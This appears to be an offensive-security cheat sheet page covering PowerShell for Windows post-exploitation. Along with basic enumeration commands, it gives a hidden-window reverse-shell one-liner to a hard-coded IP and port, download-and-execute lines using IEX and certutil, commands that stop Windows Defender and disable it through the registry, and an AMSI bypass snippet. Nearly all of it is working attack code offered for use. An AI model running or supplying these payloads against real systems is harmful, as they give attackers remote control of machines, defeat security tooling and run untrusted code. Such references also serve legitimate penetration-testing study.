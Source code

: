 ```yaml
---
description: >-
  Overall, PowerShell is a versatile and powerful tool for managing Windows
  systems and automating tasks.
---
```


# Powershell

#### Enumeration

```powershell
# Windows defender status
Get-MpComputerStatus

# Get hotfixes
Get-HotFix | ft -AutoSize

# Installed programs
Get-WmiObject -Class Win32_Product |  select Name, Version

# Get process
get-process -Id 3324
```

#### Reverse shell

```powershell
# One-liner
os.system("cmd /c powershell -w hidden -ep bypass -c \"$c=New-Object Net.Sockets.TCPClient('10.0.52.31',1377);$s=$c.GetStream();[byte[]]$b=0..65535|%{0};while(($i=$s.Read($b,0,$b.Length)) -ne 0){;$d=(New-Object -TypeName Text.ASCIIEncoding).GetString($b,0,$i);$e=(iex $d 2>&1 | Out-String );$r=$e+'PS '+(pwd).Path+'> ';$sb=([text.encoding]::ASCII).GetBytes($r);$s.Write($sb,0,$sb.Length);$s.Flush()}\"") return x
```

#### Download files

```powershell
# This wil run and execute file
(New-Object Net.WebClient).Downloadstring('http://10.0.52.31:8000/file.ps1')|IEX; 
IEX (iwr 'http://10.10.14.3:443/procmon.ps1') 

# WGET
wget http://10.0.01:8000/file.ps -Outfile file.ps1

# Certutil
certutil.exe -urlcache -f http://10.0.01:8000/file.ps1 file.ps1
```

#### Defender

```powershell
# Check status
Get-MpComputerStatus
(Get-MpComputerStatus).RealTimeProtectionEnabled

# Stop defender
net stop WinDefend

# Disable using registry
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

<details>

<summary>AMSI Error based bypass</summary>

```
$utils = [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils');
$context = $utils.GetField('amsi'+'Context','NonPublic,Static');
$session = $utils.GetField('amsi'+'Session','NonPublic,Static');

$marshal = [System.Runtime.InteropServices.Marshal];
$newContext = $marshal::AllocHGlobal(4);

$context.SetValue($null,[IntPtr]$newContext);
$session.SetValue($null,$null);
```

</details>

#### Run powershell script from server

```powershell
IEX (iwr 'http://10.10.10.205/procmon.ps1') 
```





